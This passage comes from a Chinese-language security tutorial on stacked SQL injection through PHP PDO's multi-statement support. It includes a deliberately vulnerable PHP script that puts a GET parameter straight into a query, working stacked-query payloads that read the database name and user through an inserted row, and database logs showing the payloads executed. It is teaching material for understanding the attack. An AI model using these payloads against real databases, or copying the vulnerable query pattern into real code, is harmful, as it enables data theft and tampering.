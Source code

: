 PDO有一个有趣的特性：默认可以支持多条SQL执行。这就造成了堆叠注入的可能，如下例子：

```mysql
<?php
$id= $_GET['id']; // 接收username

# 建立数据库连接
$dbs = "mysql:host=127.0.0.1;dbname=sort";
$dbname = "root";
$passwd = "root";

// 创建连接,选择数据库,检测连接
try{
$conn = new PDO($dbs, $dbname, $passwd);
echo "Sucussful<br/>";
}
catch (PDOException $e){
die ("Error!: " . $e->getMessage() . "<br/>");
}

# 预处理语句
$stmt = $conn->prepare("select fraction from fraction where id=$id");
$stmt->execute();
$fraction = $stmt->fetch();
print_r($fraction[fraction]);

$conn=null; # 关闭链接
?>
```

当输入`id=1;select%20database()`时，查看数据库日志

```mysql
5 Connect   root@localhost on sort using TCP/IP
5 Query select fraction from fraction where id=1;
5 Query select database()
# 数据库执行了两条查询语句
```

但这样有个问题是，回显位置只有1个，无法回显出第二条查询语句的结果，但可以通过先将内容插入到数据库中，然后再通过查询做出来  
先执行：`?id=1;insert into fraction(id,name,fraction) values(111,database(),user())`  
查看数据库日志以及数据库是否插入内容

```mysql
10 Connect  root@localhost on sort using TCP/IP
10 Query    select fraction from fraction where id=1;
10 Query    insert into fraction(id,name,fraction) values(111,database(),user())
# 可以看到执行了两条语句
```

![10.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-5e809c04c96b5b11437e409da5d6dc82086c8107.png)

再执行：`id=111`，能够看到成功查询，但有个问题是当回显位置的值是有个数字型时，就无法直接将我们想要获取的内容存入到数据库的相应字段中了，但好像也有办法，可以尝试一下

![11.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-bdd4b1812935109505ff0635f14228a036cb420f.png)
